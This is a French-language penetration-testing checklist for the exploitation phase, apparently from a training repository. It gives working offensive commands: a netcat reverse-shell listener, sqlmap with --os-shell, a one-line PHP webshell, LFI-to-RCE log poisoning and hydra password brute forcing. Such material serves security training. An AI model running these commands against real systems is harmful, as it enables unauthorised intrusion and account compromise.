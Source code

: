 ### Étapes

- [ ] **Préparation à l'exploitation**
  - [ ] Prioriser les vulnérabilités découvertes
    > *Question*: Quelle vulnérabilité offre le chemin de moindre résistance?
  
  - [ ] Rechercher des exploits existants
    ```bash
    searchsploit <service> <version>
    ```
    > *Question*: Existe-t-il des exploits publics pour les vulnérabilités identifiées?
  
  - [ ] Préparer l'environnement d'écoute
    ```bash
    # Pour les reverse shells
    nc -lvnp 4444
    ```
    > *Question*: Quel type de shell est le plus approprié (bind ou reverse)?

- [ ] **Exploitation des vulnérabilités Web**
  - [ ] Exploiter les injections SQL
    ```bash
    sqlmap -u "http://<ip>/page.php?id=1" --os-shell
    ```
    > *Question*: Pouvez-vous obtenir un shell via l'injection SQL?
  
  - [ ] Exploiter les failles d'upload de fichiers
    ```bash
    # Préparer un webshell PHP
    echo '<?php system($_GET["cmd"]); ?>' > shell.php
    # Tenter de l'uploader et y accéder via http://<ip>/uploads/shell.php?cmd=id
    ```
    > *Question*: Quelles sont les restrictions d'upload? Comment les contourner?
  
  - [ ] Exploiter les LFI/RFI
    ```bash
    # LFI vers RCE via log poisoning
    curl -s "http://<ip>/page.php?file=/var/log/apache2/access.log&cmd=id"
    ```
    > *Question*: Pouvez-vous transformer un LFI en RCE?
  
  - [ ] Exploiter les vulnérabilités d'authentification
    ```bash
    # Brute force de login
    hydra -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/login.php:username=^USER^&password=^PASS^:Login failed"
    ```
    > *Question*: Y a-t-il des comptes avec des mots de passe faibles?
  